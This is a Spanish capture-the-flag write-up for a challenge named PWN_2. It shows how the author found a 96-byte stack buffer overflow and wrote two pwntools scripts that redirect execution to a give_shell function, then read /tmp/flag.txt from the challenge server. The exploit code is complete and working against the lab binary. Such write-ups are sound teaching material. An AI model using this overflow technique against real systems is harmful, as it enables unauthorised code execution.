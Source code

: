 # PWN_2

Mi primera interacción es conectarme al servidor con `nc` e intentar meter una cadena de caracteres muy larga para ver que ocurre. Vemos que esta vez no es tan sencillo pues a pesar de conseguir hacer bufferoverflow, intenta mostrarnos la flag, sin embargo no puedo porque no se encuentra en el mismo directorio en el servidor. Una pista que nos da es que se encuentra en la carpeta.

![image.png](image/image_1.png)

Me descago el código correspondiente al reto, y lo primero que hacemos es mandarlo a ghidra, para ver como se ha compilado y observar las funciones. Para ver las funciones usamos gdb listando con el comando

![Screenshot 2024-11-18 at 19.47.52.png](image/image_2.png)

La funcion que nos interesa obtener es give_shell, pues con ella podremos movernos hasta el directorio `/tmp/flag.txt` . En ghidra vamos a calcular el tamaño del buffer de esa funcion, para intentar pisar los siguientes valores y conseguir que salte a la función `give_shell`.

![Screenshot 2024-11-18 at 19.43.43.png](image/image_3.png)

El tamaño del buffer es de `0x60` (96 bytes) lo cual, deberemos insertar esa cantidad para llenar el buffer y conseguiremos acceso a la shell.

Hemos modificado el archivo original de la plantilla para adaptarlo a nuestro exploit. De esta manera tenemos lo siguiente:

```jsx
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Configuración
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Cambia a la dirección real de la función objetivo

# Construcción del payload
payload = b"A" * offset  # Sobrescribir hasta la dirección de retorno
payload += p64(ret_address)  # Direccion de retorno (usa p32 si es i386)

# Inicio del exploit
io = start()
io.sendline(payload)
io.interactive()
```

Tras ejecutarlo con: `python3 script_2.py` obtenemos el siguiente resultado:

Parece que hemos conseguido saltar a la función `gife_shell`.

![image.png](image/image_4.png)

Todo esto lo hemos realizado de manera local, es decir, no conseguimos nada. Ahora ejecutaremos el script pero esta vez pasandole los parámetros de la conexión con el servidor.

`python3 script_2.py REMOTE 2f8a1b39ec.pwnth-vulnerable.numa.host 9982`

Y parece que obtenemos la reversh shell aunque a pesar de todo no nos devuelve nada:

![Screenshot 2024-11-19 at 09.36.02.png](image/image_5.png)

Vemos que no nos funciona no sabemos porque. Cambiamos el codigo para que no tengamos que introducir nosotros comandos adicionales, sino que el mismo escriba la lectura de la flag.

```python
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Construcción del payload
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Dirección de la función que quieres ejecutar

payload = b"A" * offset
payload += p64(ret_address)

# Inicio del exploit
io = start()
io.sendline(payload)

# Intenta leer el archivo de la flag
io.sendline(b"cat /tmp/flag.txt")

# Captura la salida
output = io.recvall().decode()
print(output)

io.close()

```

Con esto, obtendriamos el siguiente resultado:

![image.png](image/image_6.png)